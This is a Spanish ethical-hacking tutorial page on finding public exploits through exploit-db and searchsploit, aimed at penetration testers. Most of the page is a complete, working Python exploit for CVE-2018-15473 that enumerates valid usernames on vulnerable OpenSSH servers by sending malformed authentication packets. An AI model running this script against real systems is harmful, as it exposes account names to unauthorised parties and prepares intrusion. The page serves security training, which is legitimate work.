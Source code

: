 # Recursos de Hacking Ético

## ¿Dónde buscar exploits?

Una vez que tenemos información suficiente de un sistema (puertos, software, versiones, vulnerabilidades...) podemos intentar explotar una vulnerabilidad y siempre que podamos evitar escribir nosotros el código para explotarla será mejor. Una de las razones para explotar una vulnerabilidad es poder demostrar que esa vulnerabilidad existe para después dar un reporte a nuestro cliente.

### exploit-db

Uno de los mejores lugares para encontrar exploits es [exploit-db](https://www.exploit-db.com/). Allí podemos buscar por un paquete y una versión en concreto y ver que exploits ya hay hechos para poder usarlos.

Por ejemplo, vamos a buscar OpenSSH 7.7 que sabemos que tiene ciertas vulnerabilidades que se pueden explotar para obtener una lista de nombre de usuarios. Nos saldrá una lista parecida a esta:

![exploitdb open ssh resultados](./../../img/exploitdbopenssh.png)

Podemos ver que algunos exploits están verificados y otros no, el tipo, el sistema y el autor. Si pinchamos en uno de ellos, por ejemplo en el segundo nos da un script hecho en Python para poder probarlo nosotros:

```python
# Exploit: OpenSSH 7.7 - Username Enumeration
# Author: Justin Gardner
# Date: 2018-08-20
# Software: https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/openssh-7.7.tar.gz
# Affected Versions: OpenSSH version < 7.7
# CVE: CVE-2018-15473

###########################################################################
#                ____                    _____ _____ _    _               #
#               / __ \                  / ____/ ____| |  | |              #
#              | |  | |_ __   ___ _ __ | (___| (___ | |__| |              #
#              | |  | | '_ \ / _ \ '_ \ \___ \\___ \|  __  |              #
#              | |__| | |_) |  __/ | | |____) |___) | |  | |              #
#               \____/| .__/ \___|_| |_|_____/_____/|_|  |_|              #
#                     | |               Username Enumeration              #
#                     |_|                                                 #
#                                                                         #
###########################################################################

#!/usr/bin/env python

import argparse
import logging
import paramiko
import multiprocessing
import socket
import sys
import json
# store function we will overwrite to malform the packet
old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

# create custom exception
class BadUsername(Exception):
    def __init__(self):
	pass

# create malicious "add_boolean" function to malform packet
def add_boolean(*args, **kwargs):
    pass

# create function to call when username was invalid
def call_error(*args, **kwargs):
    raise BadUsername()

# create the malicious function to overwrite MSG_SERVICE_ACCEPT handler
def malform_packet(*args, **kwargs):
    old_add_boolean = paramiko.message.Message.add_boolean
    paramiko.message.Message.add_boolean = add_boolean
    result  = old_parse_service_accept(*args, **kwargs)
    #return old add_boolean function so start_client will work again
    paramiko.message.Message.add_boolean = old_add_boolean
    return result

# create function to perform authentication with malformed packet and desired username
def checkUsername(username, tried=0):
	sock = socket.socket()
	sock.connect((args.hostname, args.port))
	# instantiate transport
	transport = paramiko.transport.Transport(sock)
	try:
	    transport.start_client()
	except paramiko.ssh_exception.SSHException:
	    # server was likely flooded, retry up to 3 times
	    transport.close()
	    if tried < 4:
	    	tried += 1
	    	return checkUsername(username, tried)
	    else:
	    	print '[-] Failed to negotiate SSH transport'
	try:
		transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
	except BadUsername:
    		return (username, False)
	except paramiko.ssh_exception.AuthenticationException:
    		return (username, True)
	#Successful auth(?)
	raise Exception("There was an error. Is this the correct version of OpenSSH?")

def exportJSON(results):
	data = {"Valid":[], "Invalid":[]}
	for result in results:
		if result[1] and result[0] not in data['Valid']:
			data['Valid'].append(result[0])
		elif not result[1] and result[0] not in data['Invalid']:
			data['Invalid'].append(result[0])
	return json.dumps(data)

def exportCSV(results):
	final = "Username, Valid\n"
	for result in results:
		final += result[0]+", "+str(result[1])+"\n"
	return final

def exportList(results):
	final = ""
	for result in results:
		if result[1]:
			final+=result[0]+" is a valid user!\n"
		else:
			final+=result[0]+" is not a valid user!\n"
	return final

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = malform_packet
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = call_error

# get rid of paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

arg_parser = argparse.ArgumentParser()
arg_parser.add_argument('hostname', type=str, help="The target hostname or ip address")
arg_parser.add_argument('--port', type=int, default=22, help="The target port")
arg_parser.add_argument('--threads', type=int, default=5, help="The number of threads to be used")
arg_parser.add_argument('--outputFile', type=str, help="The output file location")
arg_parser.add_argument('--outputFormat', choices=['list', 'json', 'csv'], default='list', type=str, help="The output file location")
group = arg_parser.add_mutually_exclusive_group(required=True)
group.add_argument('--username', type=str, help="The single username to validate")
group.add_argument('--userList', type=str, help="The list of usernames (one per line) to enumerate through")
args = arg_parser.parse_args()

sock = socket.socket()
try:
    sock.connect((args.hostname, args.port))
    sock.close()
except socket.error:
    print '[-] Connecting to host failed. Please check the specified host and port.'
    sys.exit(1)

if args.username: #single username passed in
	result = checkUsername(args.username)
	if result[1]:
		print result[0]+" is a valid user!"
	else:
		print result[0]+" is not a valid user!"
elif args.userList: #username list passed in
	try:
		f = open(args.userList)
	except IOError:
		print "[-] File doesn't exist or is unreadable."
		sys.exit(3)
	usernames = map(str.strip, f.readlines())
	f.close()
	# map usernames to their respective threads
	pool = multiprocessing.Pool(args.threads)
	results = pool.map(checkUsername, usernames)
	try:
		outputFile = open(args.outputFile, "w")
	except IOError:
		print "[-] Cannot write to outputFile."
		sys.exit(5)
	if args.outputFormat=='list':
		outputFile.writelines(exportList(results))
		print "[+] Results successfully written to " + args.outputFile + " in List form."
	elif args.outputFormat=='json':
		outputFile.writelines(exportJSON(results))
		print "[+] Results successfully written to " + args.outputFile + " in JSON form."
	elif args.outputFormat=='csv':
		outputFile.writelines(exportCSV(results))
		print "[+] Results successfully written to " + args.outputFile + " in CSV form."
	else:
		print "".join(results)
	outputFile.close()
else: # no usernames passed in
	print "[-] No usernames provided to check"
	sys.exit(4)

```

Esto nos ahora tener que escribir el código nosotros para poder explotar esta vulnerabilidad y encima sabemos que este exploit ya funciona correctamente.

### searchsploit

Existe otra herramienta que viene ya instalada con Kali Linux que nos permite hacer lo mismo pero buscando directamente desde la terminal. Se llama searchsploit y podríamos buscar exploits de la siguiente manera:

```sh
searchsploit openssh -w
```

y nos daría una salida tal que así:

![resultados de ejecutar searchsploit openssh](./../../img/resultadossearchsploit.png)


[Volver al inicio](./../../README.md)
